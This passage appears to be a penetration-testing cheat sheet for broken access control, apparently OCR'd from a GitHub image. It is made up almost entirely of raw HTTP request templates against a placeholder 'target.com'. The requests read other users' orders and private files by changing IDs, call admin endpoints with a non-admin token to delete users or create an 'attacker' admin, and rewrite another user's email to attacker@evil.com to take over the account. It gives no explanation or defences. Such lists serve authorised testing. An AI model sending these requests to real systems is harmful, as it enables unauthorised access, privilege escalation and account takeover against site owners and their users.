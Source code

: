 ### Order Details Access
```http
GET /api/orders/7890 HTTP/1.1
Host: target.com
Cookie: session=<your_session>
```

### File Download
```http
GET /download?file=user123_private.txt HTTP/1.1
Host: target.com
```

---

## Vertical Escalation

### Admin Endpoint Access
```http
GET /admin/deleteUser?user_id=1234 HTTP/1.1
Host: target.com
Authorization: Bearer <non_admin_token>
```

### Privileged API Access
```http
POST /api/admin/createUser HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer <user_token>

{"username":"attacker","role":"admin"}
```

---

## Parameter Manipulation

### JSON Parameter
```http
POST /api/updateProfile HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer <your_token>

{"user_id":"5678","email":"attacker@evil.com"}
```

### Form Data Parameter
```http
POST /updateProfile HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=<your_session>

user_id=5678&email=attacker@evil.com
```
